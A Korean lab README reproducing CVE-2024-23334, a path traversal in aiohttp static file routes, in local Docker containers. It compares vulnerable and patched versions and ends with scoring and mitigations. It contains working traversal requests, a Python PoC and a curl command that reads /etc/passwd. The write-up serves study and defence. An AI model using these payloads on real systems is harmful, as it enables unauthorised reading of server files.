

# CVE-2024-23334 - aiohttp 정적 파일 경로 탐색

> 작성자: [@SoliShim](https://github.com/SoliShim)
> 이 환경은 교육용 로컬 실습을 위해 작성되었습니다. 허가받지 않은 시스템에는 PoC를 실행하지 마세요.

## 0. 한 줄 재현

저장소 루트에서 아래 명령을 그대로 실행하면 취약 버전과 수정 버전을 직접 빌드하고, 서비스 준비를 기다린 뒤 PoC의 성공/차단 여부까지 자동 판정합니다.

```bash
cd Aiohttp/CVE-2024-23334 && \
  docker compose --profile poc up --build \
    --abort-on-container-exit \
    --exit-code-from poc
```

성공 기준은 명령의 종료 코드가 `0`이고 마지막 두 줄이 모두 `[PASS]`인 것입니다. 실습 후 생성물을 정리합니다.

```bash
docker compose --profile poc down --volumes --remove-orphans
```

## 1. 취약점 요약

| 항목 | 내용 |
| --- | --- |
| CVE | [CVE-2024-23334](https://nvd.nist.gov/vuln/detail/CVE-2024-23334) |
| 대상 | Python 비동기 HTTP 프레임워크 `aiohttp` |
| 취약 버전 | `>=1.0.5, <3.9.2`(본 실습은 `3.9.1`) |
| 수정 버전 | `3.9.2` 이상(본 실습의 비교군은 `3.9.2`) |
| 취약점 유형 | CWE-22: Path Traversal |
| 영향 | 웹 루트 밖의 프로세스 읽기 가능 파일 노출 |
| 인증/사용자 상호작용 | 불필요 / 불필요 |
| CVSS v3.1 | **7.5 High (NVD)** - `AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N` |

`aiohttp.web` 애플리케이션에서 정적 파일 라우트를 등록할 때 `follow_symlinks=True`를 사용하면, 취약 버전은 요청 경로를 해석한 최종 파일이 정적 루트 안에 남아 있는지 검증하지 않았습니다. 공격자는 `../`가 포함된 요청을 정규화하지 않고 전송하여 정적 디렉터리 밖의 파일을 읽을 수 있습니다. 심볼릭 링크가 실제로 존재하지 않아도 악용할 수 있습니다.

이 실습은 단순한 임의 설정 오류가 아니라, aiohttp 프로젝트가 공식 보안 권고와 패치로 인정한 **CVE-2024-23334의 버전 경계**를 동일한 애플리케이션 코드에서 재현합니다. `3.9.1`에서는 파일이 노출되고, 패치가 적용된 `3.9.2`에서는 같은 요청이 차단됩니다.

## 2. 환경 구성

### 2.1 구성 요소

| Compose 서비스 | 역할 | 버전 | 호스트 접근 |
| --- | --- | --- | --- |
| `vulnerable` | 취약한 양성 대조군 | aiohttp `3.9.1` | `127.0.0.1:18080` |
| `patched` | 수정된 음성 대조군 | aiohttp `3.9.2` | `127.0.0.1:18081` |
| `poc` | 동일 경로를 두 서버에 보내고 결과를 판정 | Python 표준 라이브러리만 사용 | 외부 포트 없음 |

- 모든 서비스 이미지는 저장소의 단일 `Dockerfile`로 직접 빌드하며, 제3자가 만든 취약 환경 이미지를 사용하지 않습니다.
- 멀티아키텍처 Docker Official Image `python:3.11-slim-bookworm`은 digest `sha256:f5cf0344c9886ff24d34797578d5d7dd6e8911ae0fe5962bb55d0f89603ec361`로 고정했습니다.
- aiohttp의 직접·간접 런타임 의존성을 모두 정확한 버전으로 고정했고, 빌드 시 바이너리 wheel만 허용합니다.
- 웹 프로세스와 PoC는 비루트 UID/GID `65534`로 실행합니다.
- 호스트 포트는 외부 인터페이스가 아닌 `127.0.0.1`에만 바인딩합니다.
- `healthcheck`와 `depends_on: condition: service_healthy`로 서버 준비 전 PoC 실행을 방지합니다.

### 2.2 실행 요구사항

- Docker Engine과 `docker compose` 명령을 사용할 수 있어야 합니다.
- 최초 빌드 시 Docker Hub와 PyPI에서 고정된 이미지·패키지를 내려받을 네트워크 연결이 필요합니다.
- 기본 수동 실습 포트 `127.0.0.1:18080`과 `127.0.0.1:18081`이 비어 있어야 합니다.
- 검증 환경은 Docker Desktop `4.75.0`, Docker CLI `29.5.2`, Docker Compose `v5.1.3`입니다.

### 2.3 파일 구조

```text
CVE-2024-23334/
├── .dockerignore
├── Dockerfile
├── docker-compose.yml
├── app.py
├── poc.py
├── proof.txt
├── public/
│   └── index.txt
├── requirements-vulnerable.txt
├── requirements-patched.txt
├── verify.sh
└── assets/
    └── poc-result.jpg
```

`proof.txt`는 이미지 내부 `/tmp/cve-2024-23334-proof.txt`에 복사됩니다. 정상적으로 공개된 정적 루트는 `/app/public`이므로, 이 마커 파일이 HTTP 응답으로 반환되면 정적 루트 탈출이 입증됩니다.

## 3. 취약 조건

두 서버는 아래와 같이 **완전히 같은** 라우트 설정을 사용합니다. 유일한 차이는 aiohttp 버전입니다.

```python
app.router.add_static(
    "/static/",
    path=STATIC_DIR,
    follow_symlinks=True,
    show_index=True,
)
```

취약 조건은 다음과 같습니다.

1. aiohttp를 웹 서버로 사용합니다.
2. 영향받는 aiohttp 버전을 사용합니다.
3. `web.static()` 또는 `router.add_static()`에 `follow_symlinks=True`를 지정합니다.
4. 원격 사용자가 정적 파일 URL에 요청할 수 있습니다.
5. 서버 프로세스가 정적 루트 밖의 민감 파일을 읽을 권한을 가집니다.

일반 브라우저와 일부 HTTP 클라이언트는 전송 전에 `../`를 제거합니다. 따라서 수동 실습에서는 `curl --path-as-is`를 사용하고, 자동 PoC는 요청 대상을 그대로 보내는 Python `http.client`를 사용합니다.

## 4. 재현 절차

### 4.1 자동 재현 - 권장

```bash
cd Aiohttp/CVE-2024-23334
docker compose --profile poc up --build \
  --abort-on-container-exit \
  --exit-code-from poc
```

이 명령은 다음 작업을 순서대로 수행합니다.

1. 로컬 Dockerfile에서 취약 서버, 수정 서버, PoC 이미지를 빌드합니다.
2. 두 서버를 시작하고 각각의 healthcheck가 통과할 때까지 기다립니다.
3. PoC가 두 서버의 정상 공개 파일이 HTTP 200과 기준 마커를 반환하는지 먼저 검사합니다.
4. 두 서버에 동일한 경로 탐색 요청을 전송합니다.
5. 취약 서버의 HTTP 200·마커 노출과 수정 서버의 HTTP 404·마커 차단을 모두 검사합니다.
6. 하나라도 예상 결과와 다르면 종료 코드 `1`, 모두 일치하면 종료 코드 `0`을 반환합니다.

### 4.2 수동 재현

서버를 백그라운드로 실행합니다.

```bash
docker compose up -d --build --wait
```

정상 공개 파일은 두 서버에서 모두 읽을 수 있습니다.

```bash
curl http://127.0.0.1:18080/static/index.txt
curl http://127.0.0.1:18081/static/index.txt
```

취약 서버에 경로 탐색 요청을 보냅니다.

```bash
TRAVERSAL="../../../../../../tmp/cve-2024-23334-proof.txt"
curl --path-as-is -i \
  "http://127.0.0.1:18080/static/${TRAVERSAL}"
```

`HTTP/1.1 200 OK`와 다음 마커가 반환됩니다.

```text
CVE-2024-23334-PROOF: file-outside-static-root
```

수정 서버에 동일한 요청을 보냅니다.

```bash
TRAVERSAL="../../../../../../tmp/cve-2024-23334-proof.txt"
curl --path-as-is -i \
  "http://127.0.0.1:18081/static/${TRAVERSAL}"
```

`HTTP/1.1 404 Not Found`가 반환되며 마커는 노출되지 않습니다.

## 5. PoC 코드

전체 코드는 [`poc.py`](./poc.py)에 있습니다. 아래 핵심 판정 로직은 요청 경로를 정규화하지 않고 그대로 보내며, 버전·정상 공개 파일·상태 코드·응답 마커를 함께 검증합니다.

```python
TRAVERSAL_PATH = (
    "/static/../../../../../../tmp/cve-2024-23334-proof.txt"
)
EXPECTED_MARKER = (
    "CVE-2024-23334-PROOF: file-outside-static-root"
)
PUBLIC_PATH = "/static/index.txt"
EXPECTED_PUBLIC_MARKER = "This file is intentionally public."

@dataclass(frozen=True)
class Target:
    label: str
    host: str
    port: int
    expected_version: str
    expected_status: int
    should_leak: bool

TARGETS = (
    Target("vulnerable", "vulnerable", 8080, "3.9.1", 200, True),
    Target("patched", "patched", 8080, "3.9.2", 404, False),
)

def get(host: str, port: int, path: str) -> tuple[int, str]:
    connection = http.client.HTTPConnection(
        host,
        port,
        timeout=5,
    )
    try:
        connection.request("GET", path)
        response = connection.getresponse()
        body = response.read().decode(
            "utf-8",
            errors="replace",
        )
        return response.status, body
    finally:
        connection.close()

def test_target(target: Target) -> bool:
    info_status, info_body = get(target.host, target.port, "/")
    info = json.loads(info_body) if info_status == 200 else {}

    public_status, public_body = get(target.host, target.port, PUBLIC_PATH)
    public_marker_found = EXPECTED_PUBLIC_MARKER in public_body
    public_ok = public_status == 200 and public_marker_found

    status, body = get(target.host, target.port, TRAVERSAL_PATH)

    version_ok = info.get("aiohttp_version") == target.expected_version
    leaked = EXPECTED_MARKER in body
    status_ok = status == target.expected_status
    behavior_ok = leaked is target.should_leak
    return version_ok and public_ok and status_ok and behavior_ok
```

실습용 마커 대신 컨테이너의 일반 파일을 확인하려면 다음과 같이 요청할 수 있습니다. 출력은 실습 컨테이너 내부 파일에 한정됩니다.

```bash
ETC_PATH="../../../../../../etc/passwd"
curl --path-as-is \
  "http://127.0.0.1:18080/static/${ETC_PATH}"
```

## 6. 실행 결과

2026-07-11에 Docker Desktop `4.75.0`(Docker CLI `29.5.2`, Docker Compose `v5.1.3`)에서 Linux/ARM64 네이티브와 Linux/AMD64 에뮬레이션 환경을 각각 캐시 없이 빌드한 후 제출 명령을 실행했습니다. 두 아키텍처 모두 아래와 같은 결과와 종료 코드 `0`을 반환했으며, 검증 후 관련 컨테이너와 네트워크가 남지 않는 것도 확인했습니다.

```text
[VULNERABLE]
  aiohttp version : 3.9.1 (expected 3.9.1)
  public baseline : 200 / marker YES
  HTTP status     : 200 (expected 200)
  marker exposed  : YES
  verdict         : PASS

[PATCHED]
  aiohttp version : 3.9.2 (expected 3.9.2)
  public baseline : 200 / marker YES
  HTTP status     : 404 (expected 404)
  marker exposed  : NO
  verdict         : PASS

[PASS] Vulnerable 3.9.1 leaked the out-of-root file.
[PASS] Patched 3.9.2 blocked the identical request.
```



## 7. 대응 방안

1. **aiohttp 업그레이드**: 최소 `3.9.2` 이상으로 올립니다. 운영 환경에서는 지원 중인 최신 보안 버전을 사용합니다.
2. **`follow_symlinks=True` 제거**: 외부 사용자가 접근하는 서버에서는 이 옵션을 비활성화합니다. 정적 루트 내부를 가리키는 일반 심볼릭 링크에는 이 옵션이 필요하지 않습니다.
3. **정적 파일 분리**: aiohttp 프로젝트의 권고대로 Nginx와 같은 전용 리버스 프록시/정적 파일 서버에서 정적 자원을 제공합니다.
4. **최소 권한 실행**: 애플리케이션 계정이 환경 변수 파일, 인증서, 키, 백업, 소스 저장소 등 불필요한 파일을 읽지 못하도록 권한을 제한합니다.
5. **탐지와 점검**: 정적 경로에 `../`, `%2e`, 이중 인코딩이 반복되는 요청을 모니터링하고, 코드에서 `follow_symlinks=True` 사용 여부를 검색합니다.
6. **회귀 테스트**: 패치 후에도 본 PoC와 같은 음성 대조 테스트를 CI에서 실행해 정적 루트 밖 파일이 반환되지 않는지 확인합니다.

## 8. 평가 - 2축 분리

### 8.1 Reproducibility: **100% (자체 검증 기준)**

- `docker compose` 한 줄로 빌드, 기동, 준비 대기, PoC, 종료 코드 판정이 완료됩니다.
- 모든 서비스가 로컬 Dockerfile에서 빌드되며 외부의 사전 제작 취약 이미지에 의존하지 않습니다.
- 베이스 이미지는 멀티아키텍처 digest로, aiohttp의 모든 직접·간접 런타임 의존성은 정확한 버전으로 고정했습니다.
- 커밋 `HEAD`를 `git archive`로 별도 디렉터리에 추출한 뒤 Linux/ARM64 네이티브와 Linux/AMD64 에뮬레이션에서 캐시 없는 빌드와 PoC를 각각 통과했습니다.
- PoC 컨테이너는 Python 표준 라이브러리만 사용하므로 호스트의 Python/curl 버전에 의존하지 않습니다.
- 취약 버전만 시험하지 않고 수정 버전에 대한 음성 대조군도 동일 요청으로 검증합니다.
- healthcheck, 명시적 타임아웃, 종료 코드 검사를 포함합니다.
- `verify.sh`는 `poc` 프로필을 포함한 기존 생성물을 제거하고 `--no-cache --pull`로 다시 빌드한 뒤 같은 자동 검증을 수행합니다.
- 검증 종료 후 해당 Compose 프로젝트의 컨테이너와 네트워크가 남지 않는 것을 확인했습니다.

### 8.2 Risk Score: **7.5 / 10.0 (High, NVD CVSS v3.1)**

본 보고서의 Risk Score는 NVD의 CVSS v3.1 벡터 `AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N`을 적용했습니다. 점수 제공 기관에 따라 공격 복잡도 해석이 달라질 수 있으므로 공식 점수를 함께 명시합니다.

| 제공 기관 | 규격 | 점수 | 핵심 차이 |
| --- | --- | --- | --- |
| NVD(본 보고서 채택) | CVSS v3.1 | **7.5 High** | `AC:L` |
| GitHub CNA | CVSS v3.1 | 5.9 Medium | `AC:H` |
| GitHub CNA | CVSS v4.0 | 8.2 High | `AT:P` |

과제의 0.0-10.0 Risk Score와 저장소의 기존 표기 방식에 맞춰 NVD CVSS v3.1 값을 채택했습니다. 아래 근거 표 역시 NVD 벡터를 기준으로 합니다.

| 지표 | 값 | 근거 |
| --- | --- | --- |
| AV | Network | 원격 HTTP 요청으로 악용 가능 |
| AC | Low | 경로 탐색 문자열 외에 복잡한 경쟁 조건이 없음 |
| PR | None | 사전 인증이 필요하지 않음 |
| UI | None | 피해자의 별도 동작이 필요하지 않음 |
| S | Unchanged | 영향이 취약 서버의 보안 권한 범위에 머묾 |
| C | High | 프로세스가 읽을 수 있는 임의 파일 노출 가능 |
| I | None | 이 CVE 자체로 파일 변조는 입증되지 않음 |
| A | None | 이 CVE 자체로 가용성 침해는 입증되지 않음 |

위험도는 취약점의 영향이고, 재현성 점수는 이 제출물의 완성도입니다. 두 점수를 합산하거나 서로 보정하지 않았습니다.

## 9. 깨끗한 환경 검증

커밋 대상 파일만으로 다시 확인할 때는 다음 명령을 사용합니다.

```bash
cd Aiohttp/CVE-2024-23334
./verify.sh
```

`verify.sh`가 실제로 수행하는 절차는 다음과 같습니다.

```bash
docker compose --profile poc down --volumes --remove-orphans
docker compose --profile poc build --no-cache --pull
docker compose --profile poc up \
  --abort-on-container-exit \
  --exit-code-from poc
```

별도 아키텍처 호환성 검증에는 같은 제출 파일을 변경하지 않고 다음 명령을 사용했습니다.

```bash
env DOCKER_DEFAULT_PLATFORM=linux/amd64 ./verify.sh
```

검증 완료 후 남은 컨테이너와 네트워크를 제거합니다.

```bash
docker compose --profile poc down --volumes --remove-orphans
```

## 10. 참고 자료

- [aiohttp 공식 보안 권고 GHSA-5h86-8mv2-jq9f](https://github.com/aio-libs/aiohttp/security/advisories/GHSA-5h86-8mv2-jq9f)
- [GitHub Advisory API - 영향 버전 및 CNA 점수](https://api.github.com/advisories/GHSA-5h86-8mv2-jq9f)
- [NVD CVE-2024-23334](https://nvd.nist.gov/vuln/detail/CVE-2024-23334)
- [FIRST CVSS v3.1 명세](https://www.first.org/cvss/v3-1/specification-document)
- [aiohttp 수정 PR #8079](https://github.com/aio-libs/aiohttp/pull/8079)
- [aiohttp 수정 커밋](https://github.com/aio-libs/aiohttp/commit/1c335944d6a8b1298baf179b7c0b3069f10c514b)
- [aiohttp 정적 파일 라우트 문서](https://docs.aiohttp.org/en/stable/web_reference.html#aiohttp.web.UrlDispatcher.add_static)
